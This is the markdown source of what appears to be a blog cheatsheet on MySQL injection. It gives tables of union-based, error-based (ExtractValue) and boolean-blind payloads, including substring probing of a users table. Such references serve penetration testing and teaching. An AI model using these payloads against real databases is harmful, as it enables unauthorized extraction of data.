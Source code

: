 ```yaml
---
title:  "MySQL Cheatsheet"
imgdir: 
tags: web sql
excerpt: Cheatsheet for MySQL
date: 2021-11-06
---
```



add where not in

Note: the segments enclosed in double carets (^^) need to be replaced with the indicated value - examples have been provided where practical.
{: .notice--info}

# MySQL Injection

## Union Based
[ftb](/articles/owasp10/SQLi/#union-based)

| Function | Command | Ref. |
| --- | --- |---|
| Column Count by ORDER | `ORDER BY ^^column_id^^;`{:.language-sql .highlight}<br>eg.`ORDER BY 1;`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/sorting-rows.html) |
| Column Count by GROUP | `GROUP BY ^^column_id^^;`{:.language-sql .highlight}<br>eg.`GROUP BY 1;`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/group-by-handling.html) |
| Get Returned Columns | `UNION ALL SELECT 1,2,3;`{:.language-sql .highlight} (incrementing up to column count) | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/union.html) |
|===|===|===|


## Error based

[ftb](/articles/owasp10/SQLi/#error-based)

| Function | Command | Ref. |
| --- | --- |---|
| Trigger error on query | `ExtractValue(rand(),concat(0x3a,^^query^^));`{:.language-sql .highlight}<br>eg.`ExtractValue(rand(),concat(0x3a,version()));`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/xml-functions.html#function_extractvalue) |
|===|===|===|

## Blind - Boolean based

[ftb](/articles/owasp10/SQLi/#boolean-based)

| Function | Command | Ref. |
| --- | --- |---|
| Testing True | `OR '1'='1';`{:.language-sql .highlight} |  |
|  | `AND '1'='1';`{:.language-sql .highlight} |  |
| Testing False | `OR '1'='0';`{:.language-sql .highlight} |  |
|  | `AND '1'='0';`{:.language-sql .highlight} |  |
| Binary character discovery | `AND SUBSTRING((SELECT username FROM users WHERE id = 1), 1, 1) > 'm';`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_substring) |
|===|===|===|
